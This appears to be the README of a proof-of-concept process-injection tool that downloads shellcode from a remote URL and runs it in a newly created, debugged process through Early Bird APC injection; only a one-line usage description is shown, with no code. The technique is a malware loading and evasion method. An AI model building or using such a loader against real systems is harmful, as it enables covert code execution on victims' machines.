 ## RemoteEarlyBird

PoC to perform Early Bird APC Injection in a debugged process using shellcode retrieved from remote server via HTTP.

### Usage

`remoteearlybird <url> <process>` -> Fetches payload from `<url>`, creates new `<process>` in debugged state, and queues the main thread for an APC and detaches from the remote process.